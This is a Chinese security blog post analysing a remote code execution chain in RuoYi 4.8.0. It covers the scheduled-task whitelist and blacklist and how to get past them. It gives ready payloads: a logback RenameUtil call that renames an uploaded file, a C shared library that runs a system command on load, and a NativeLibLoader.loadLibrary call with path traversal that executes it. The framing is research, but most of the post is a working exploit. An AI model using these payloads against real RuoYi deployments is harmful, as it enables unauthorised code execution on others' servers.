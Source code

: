 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkxNDQ5MTQ2Mg==&mid=2247484008&idx=1&sn=2ace6d9b83200f6f09158527c68469e0

#  若依4.8.0RCE分析  
Douuyu  北银京卫军   2025-06-16 06:05  
  
一、最新版本RCE限制  
  
    在创建任务或修改任务的接口都会对上传的内容进行过滤，可以看到禁用了rmi、ldap、http协议，无法通过远程加载进行rce  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwbo5MCoojPicwsaQmzrRluXGIMGrIHcyNnLGwZA4zQYDQoxg6tP7COsQ/640?wx_fmt=png&from=appmsg "")  
  
    并且在调用类时进行黑名单校验  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwI4JVOMxkZ0XsOlcqBXib726DicRicVok8icEyFrlOIbpqXOtwBicFDIvjFQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwRMqJibMVA4aYhfUN2aHJTfcyeFG9bXbqzHv31CzCyksdul5cQrHz2vw/640?wx_fmt=png&from=appmsg "")  
  
      
在加载包时还会进行白名单校验  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwYqeIbQFdfqDbSx2VKVeTWzFyKbkW7AT3zRqCgRzgJaibDreIpOhI7AQ/640?wx_fmt=png&from=appmsg "")  
  
      
跟进whiteList方法，使用containsAnyIgnoreCase对字符串进行校验，是否存在白名单的字段  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwquSW1xaiaf6IzNBicLokSiaJiaB4RHop4FUnn7OOLQJJQjcnAXkWJYTic7w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwooh2d6136JYJibzB4YiactVxkUdaCsPcG4O2eiasFtNho9UOhUXnfPJoQ/640?wx_fmt=png&from=appmsg "")  
  
    所以我们在创建计划任务时要带有“com.ruoyi.quartz.task”字段，并且使用其他包下的方法绕过黑名单的限制  
  
  
    在反射的时候还要注意，需要满足存在一个无参构造函数，且都是public  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwG6B3qpPfc3uj9kODWNS68ib75xM7c2nP1ic6LggwQGmvtfLLppKVMTqw/640?wx_fmt=png&from=appmsg "")  
  
      
条件总结：  
  
        1、传入的字符串需要包含com.ruoyi.quartz.task  
  
        2、不能使用黑名单中包的类  
  
        3、使用的类需要满足：有一个无参构造函数，并且都是public，方法也需要是public；传递的参数只能是基本类型  
  
二、寻找调用方法  
  
    在进行日志处理的组件中一般会存在对文件操作的方法，在logback组件中就存在类似的方法  
  
  
    ch.qos.logback.core.rolling.helper.RenameUtil类中存在文件复制的方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwA115FNwLewRZCWP5tGxeDFReIqic000RML1wAkZY0jxC7aiaA0py9ryQ/640?wx_fmt=png&from=appmsg "")  
  
      
那么我们可以利用文件上传脚本图片，通过上面的文件复制进行文件的移动和重命名  
  
      
先上传文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwXYpF0icAne91AibvY9efxibVQoA9FPy2rfmzKYaJoaibzkG75BzGtLhQdw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwVhdEhmwsZLaGd8icEQiaawQmCekC7AxE2TumKaCF9kOUDRQq6xJiaey5g/640?wx_fmt=png&from=appmsg "")  
  
      
然后使用ch.qos.logback.core.rolling.helper.RenameUtil.renameByCopying()方法对文件进行移动重命名（文件的默认路径：/home/ruoyi/），poc如下：  

```
ch.qos.logback.core.rolling.helper.RenameUtil.renameByCopying(&#34;/RuoYi-master/upload/avatar/2025/05/05/com.ruoyi.quartz.task_20250505172815A006.png&#34;,&#34;/RuoYi-master/upload/avatar/2025/05/05/test.txt&#34;)
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwjw0cu4dYSXzzpdGGh3C7Tm3uDwic5qcCicFllAJjjia0I2ib342JibZX87Q/640?wx_fmt=png&from=appmsg "")  
  
      
执行之后的结果  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwBiaY18L1txBg6e26MmCkfgxvepcpQQwKyYmEtw5vfliaxrfbDkmmTzAw/640?wx_fmt=png&from=appmsg "")  
  
      
那么我们就可以写计划任务或者ssh  
  
三、使用com.sun.glass.utils.NativeLibLoader.loadLibrary进行RCE  
####     写一个calc.c  
  

```
#include <stdlib.h> 


__attribute__((constructor)) 
static void auto_run() {
    system(&#34;open -a calculator&#34;);
}
```

  
    进行编译  

```
gcc  calc.c -o calc
```

  
      
将编译后的文件上传  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwEwwBjtS9ibFyxg5kaIL5iczyk2kRBxtREHmSSYyVrAQxHtI4ehO1BAPw/640?wx_fmt=png&from=appmsg "")  
  
      
将文件进行重命名  

```
ch.qos.logback.core.rolling.helper.RenameUtil.renameByCopying(&#34;/RuoYi-master/upload/avatar/2025/05/05/com.ruoyi.quartz.task_20250505172815A006.png&#34;,&#34;/RuoYi-master/upload/avatar/2025/05/05/com.ruoyi.quartz.task_20250505172815A006.dylib&#34;)
```

  
      
使用com.sun.glass.utils.NativeLibLoader.loadLibrary执行动态代码库，添加计划任务  

```
com.sun.glass.utils.NativeLibLoader.loadLibrary('../../../../../../../../../../RuoYi-master/upload/avatar/2025/05/05/com.ruoyi.quartz.task_20250505172815A006')
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDw6LIcWUz4DcgQUj8yCNB5kiaOic8H5JBFLPFx4JH89IVc7rTibWrEkzkCQ/640?wx_fmt=png&from=appmsg "")  
  
      
执行计划任务，可执行代码库中的系统命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGrsMqKLZmklxJO1MhhTTpDwamTlqLA0aubkcRWeIDOWuTkLfPyibCMFCW4icgSTc55XtSD8teEQkMDQ/640?wx_fmt=png&from=appmsg "")  
####     RCE利用条件  
####         1、需要根据jdk版本判断是否存在  
#### com.sun.glass.utils.NativeLibLoader.loadLibrary；  
  
  
       2、文件上传的默认路径是/home/ruoyi，如果修改了就需要猜测  
  
